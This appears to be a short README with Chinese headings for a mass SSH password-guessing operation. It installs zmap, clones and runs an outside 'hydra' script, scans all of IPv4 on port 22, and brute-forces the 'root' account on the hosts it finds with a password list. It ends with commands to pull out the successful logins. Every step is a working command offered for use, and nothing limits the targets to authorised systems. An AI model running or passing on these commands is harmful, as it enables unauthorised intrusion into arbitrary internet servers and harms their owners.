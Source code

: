   ### 安装zmap 克隆项目

	apt update && apt install zmap && apt install git && git clone https://github.com/qq1521575701/hydra.git && cd hydra && chmod +x hydra.sh

  ### zmap扫描ssh服务

	zmap -p 22 0.0.0.0/0 -N 10000 -o ssh.txt

  ### 运行项目
  	nohup ./hydra.sh ssh.txt root pass.txt 50 res.txt > hydra.log &

  ### 查看运行详情

  	tail -f hydra.log

 ### 查看结果

  	tail -f res.txt
  
 ### 过滤查看
 
	awk -F'host: |   ' '{ ip[$2]++ } { lines[$2] = $0 } END { for (i in ip) if (ip[i] == 1) print lines[i] }' res.txt > output.txt && cat output.txt
